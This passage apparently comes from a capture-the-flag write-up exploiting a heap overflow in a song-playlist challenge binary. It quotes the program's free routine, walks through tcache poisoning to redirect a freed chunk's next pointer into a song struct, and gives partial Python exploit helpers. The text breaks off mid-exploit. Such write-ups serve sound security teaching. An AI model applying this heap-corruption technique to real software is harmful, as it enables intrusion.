 ```c
    printf("Removing: %s from %s\n", songs[choice].song, songs[choice].album);
    songs[choice].song = 0;
    songs[choice].album = 0;
    free(songs[choice].contents);
    songs[choice].contents = 0;
    memset(songs[choice].song_path, 0, sizeof(songs[choice].song_path));
    close(songs[choice].fd);
    songs[choice].fd = 0;
```

After allocating our two songs, we can remove them from the playlist thus freeing the chunks associated with them.
After this, our heap will look something like [0x690 unsorted][0x3c0 tcache]. After this, we're ready
to use our call to read on stdin and perform the overflow. By calling malloc on a size of zero, we're 
returned a chunk of 0x20 in size from our first unsorted bin. This means the heap will look something
like [0x20 chunk][0x670 unsorted][0x3c0 tcache]. From here we can set the freed tcache chunk's next 
pointer to somewhere in the second song (for our purposes, we will use`songs[1].album`, however the exact
location is slightly misaligned for the exploit). This gives us a fake linked list that looks something like:

```
[0x3c0 tcache] -> &songs[1].album
```

or in a picture:

```
                          +-------------+
              songs[1] -->| song_path   |
  +------------------+    | fd          |
  |heap, 0x3c0 tcache| -->| album       |
  +------------------+    | song        |
			  | contents    |
                          +-------------+
```
In order to do this, we'll have to overflow the 0x20 chunk and the 0x670 unsorted chunk. This gives us an even 0x690 bytes (nice).
Now our exploit looks something like this:

```python
def playsong(songnum):
        proc.recvuntil("Choice:")
        proc.sendline("3")
        proc.recvuntil("Choice:")
        proc.sendline(str(songnum))

def freesong(songnum):
        proc.recvuntil("Choice:")
        proc.sendline("4")
        proc.recvuntil("Choice:")
        proc.sendline(str(songnum))

def stdsong(songnum, len, data):
        playsong(songnum)
        proc.sendline(str(len))
        proc.send(data)

for i in range(3, ord('.') - 1):
        addsong("Animal/animal.txt")
addsong("Animal/dinosaur.txt")
addsong("Animal" + "/" * (24 - len("Animal")))

```